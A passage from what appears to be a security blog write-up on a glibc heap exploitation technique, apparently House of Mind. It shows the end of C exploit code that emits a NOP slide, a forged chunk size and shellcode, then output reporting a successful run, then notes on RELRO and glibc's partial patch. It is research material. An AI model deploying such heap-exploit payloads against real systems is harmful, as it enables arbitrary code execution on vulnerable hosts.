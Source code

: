 ``` c

  // NOP slide + nextchunk->size
  fwrite("\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x09\x00\x00\x00\x90\x90\x90\x90", 20, 1, stdout);

  // shellcode at the end
  fwrite(shellcode, sizeof(shellcode), 1, stdout);

  return 0;
}
```
As I said, I am running a Linux box with glibc 2.20 and this exploit, I can say, actually worked, giving me the expected output:  
```
 $ ./hom < payload
ptr found at 0x804b008
good heap alignment found on malloc() 720 (0x8100280)
Pwned!$
```
It’s important to remember that the .dtors and .got sections are now read-only thanks to the RELRO protection, so overwriting the EIP is one of the very few interesting options left. Anyway, doing this requires the cooperation of heap and stack, adding some more complication to the technique: this doesn’t mean, however, that the whole thing is not feasible.  

In conclusion, the patch committed by the glibc project’s maintainers fixes only part of the problem and no definitive patch was every committed since then. An analysis of what could patch the fastbin way is described at [this](http://em386.blogspot.com/2010/01/glibc-211-stops-house-of-mind.html) page.  